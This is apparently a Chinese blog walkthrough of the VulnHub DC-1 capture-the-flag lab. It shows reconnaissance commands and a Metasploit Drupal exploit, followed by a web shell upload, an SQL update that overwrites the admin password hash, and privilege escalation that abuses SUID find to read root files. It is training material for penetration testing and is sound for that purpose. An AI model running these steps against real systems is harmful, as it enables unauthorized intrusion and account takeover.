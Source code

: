```yaml
---
title: vulnhub-DC-1
categories:
 - vulnhub
tags:
- vulnhub
- 渗透测试
---
```


vulnhub渗透之旅（1）-DC-1

# 信息收集

## 扫网段

```
map -sn 192.168.72.0/24
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-08 01:50 EDT
Nmap scan report for 192.168.72.2
Host is up (0.0013s latency).
Nmap scan report for 192.168.72.153
Host is up (0.000094s latency).
Nmap scan report for 192.168.72.154
Host is up (0.0046s latency).
Nmap done: 256 IP addresses (3 hosts up) scanned in 5.14 seconds

```

153是kali，154就是目标主机

## 扫端口

```
nmap -A 192.168.72.154
```

发现22，80端口

## 扫web应用

```
whatweb 192.168.72.154
http://192.168.72.154 [200 OK] Apache[2.2.22], Content-Language[en], Country[RESERVED][ZZ], Drupal, HTTPServer[Debian Linux][Apache/2.2.22 (Debian)], IP[192.168.72.154], JQuery, MetaGenerator[Drupal 7 (http://drupal.org)], PHP[5.4.45-0+deb7u14], PasswordField[pass], Script[text/javascript], Title[Welcome to Drupal Site | Drupal Site], UncommonHeaders[x-generator], X-Powered-By[PHP/5.4.45-0+deb7u14]
```

## 扫目录

```
dirb http://192.168.72.154   
```

内容过多就不放了

## nikto

```
nikto -h 192.168.72.154
```

# 手动渗透

尝试SQL注入无果后，考虑可以进行邮件重置逻辑上的挖取，但是还是先看看有没有Drupal的poc

## metasploit

![image-20210408145420007](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210408145420007.png)

选一个近期的一把梭

![image-20210408145858059](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210408145858059.png)

```
find -name "flag*"                
./flag1.txt
cat ./flag1.txt 
Every good CMS needs a config file - and so do you.
```

根据提示找配置文件看，发现flag2和数据库账号密码

![image-20210408150451197](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210408150451197.png)

meterpreter里传个冰蝎的shell上去便于进一步渗透

```
upload ~/Desktop/shell.php /var/www/my.php
```



![image-20210408152940799](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210408152940799.png)

## 连接数据库

根据前面的得到的账号连接数据库

![image-20210408153339450](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210408153339450.png)

![image-20210408154220409](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210408154220409.png)

不知道出了什么问题，冰蝎的数据库查询结果变成了数字，留个坑，再遇到一次就把原因搞清楚。

回到虚拟终端看数据库内容

![image-20210408161032826](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210408161032826.png)

这里的密码明显hash过，又在目录里找了找，看到个文件描述了加密过程，也是有加盐的

## 获取管理员账号

好在找到了用来生成密码的文件

![image-20210408164443620](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210408164443620.png)

更新一下admin的密码试试

```
update drupaldb.users set pass="$S$DQWOIHX96iwXWl5kDZ6cmQ71T6KxngqIa/QOr7bm0jiyEN/TpCgX" where name = "admin";
```

登录成功看到flag3的提示，提示用命令来获取密码

那就看看passwd

![image-20210408164634388](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210408164634388.png)

发现用户flag4,去看看所在的文件夹

![image-20210408164730228](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210408164730228.png)

## 越权读文件

查找有root权限的文件

``` 
find / -perm -u=s -type f 2>/dev/null
```



![image-20210408165159592](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210408165159592.png)

![image-20210408165547236](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210408165547236.png)

``` 
find /root -name "thefinalflag.txt" -exec cat {} \;
```

![image-20210408170314190](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210408170314190.png)

这样就读到了最后的flag。